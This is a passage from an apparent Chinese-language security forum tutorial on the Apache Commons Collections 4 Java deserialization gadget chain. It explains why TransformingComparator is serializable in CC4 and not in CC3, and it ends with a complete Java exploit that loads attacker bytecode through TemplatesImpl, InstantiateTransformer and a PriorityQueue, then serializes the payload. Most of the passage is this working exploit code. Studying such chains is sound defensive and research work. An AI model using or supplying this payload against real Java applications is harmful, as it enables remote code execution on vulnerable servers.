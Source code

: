 ‍

- 其实他在`add`​方法的时候也会去调用`compare`​方法，所以跟URLDNS或者CC3一样都要去反射把值修改一下

‍

- CC4跟CC3的包其实更新了一个版本后在`TransformingComparator`​中是有改变的，在CC4中这个类继承了`Serializable`​接口导致可以序列化

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4241ad000ac0ccceafb06b369d7761b3b605612d.png)​

而在CC3中是并没有进行序列化的继承的

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-acde862d36eb75e45b4caca4781fd0db6e84c367.png)​

最后的EXP

```java
TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);

        priorityQueue.add(templates);
        priorityQueue.add(2);

        Class c = transformingComparator.getClass();
        Field transformingComparatorfield =  c.getDeclaredField("transformer");
        transformingComparatorfield.setAccessible(true);
        transformingComparatorfield.set(transformingComparator,chainedTransformer);

        serialize(priorityQueue);
        unserialize("ser.bin");
```
